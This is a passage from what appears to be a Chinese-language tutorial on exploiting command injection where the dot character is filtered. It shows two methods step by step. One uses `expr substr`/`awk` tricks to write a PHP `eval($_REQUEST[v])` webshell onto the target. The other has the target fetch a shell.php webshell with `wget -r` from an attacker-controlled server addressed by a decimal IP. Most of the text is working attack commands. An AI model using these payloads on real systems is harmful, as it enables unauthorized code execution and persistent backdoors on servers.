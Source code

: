 ### 总结步骤：

#### 1)

```
ls >xxx ，cat xxx    //先找点，得到.的行列数。 
```

#### 2)

```
Cat  test.`expr substr $(awk NR==1 xxx)  2 1`php  > xxoo  //将 test.php 写入 xxoo 文件，方便后面读取。 
```

#### 3)

```
echo `expr substr $(awk NR==1 xxoo) 1 1`?php eval`expr substr $(awk NR==11 xxoo) 33 1``expr substr $(awk NR==20 xxoo) 1 1`_REQUEST[v]`expr substr $(awk NR==11 xxoo) 35 1``expr substr $(awk NR==20 xxoo) 7 1``expr substr $(awk NR==17 xxoo) 2 1``expr substr $(awk NR==1 xxoo) 6 1` >2`expr substr $(awk NR==30 xxoo) 13 1`php;     //所需的字符从替换成 xxoo 文件中的字符。 
```

### 第二种方法:

通过下载文件得到 shell,这种方法要省事很多,要解决的关键还是.(点),还有//(路径符).(点)的解决可以用数字 IP 的方法绕过.

需要条件:

```
外网能用 ip 访问的 webserver,以及目标存在 wget 程序和当前目录有写文件权限。 
```

在线转换链接:

```
http://tool.chinaz.com/ip/?IP=127.0.0.1 
```

![2014030416412310827_png.jpg](img/img16_u21_jpg.jpg)

以本机为例（ubuntu +apache2:）

```
1.先转换得到数字 ip  127.0.0.1 = 2130706433 
2.将外网的服务器的 php 解析去掉,在 apache 配置文件中将下面参数注释 
#LoadModule php5_module /usr/lib/apache2/modules/libphp5.so 
3.在根目录创建 index.html 文件,内容为`<a href="shell.php">test</a>`，创建 shell.php 内容是马. 
4.使用 wget 整站下载功能下载（wget 自动沿着 href 指向爬到 shell.php 并下载） 
Ps:貌似用 301 跳转也可以,不过我没有测试 
```

参数: wget -r 2130706433  

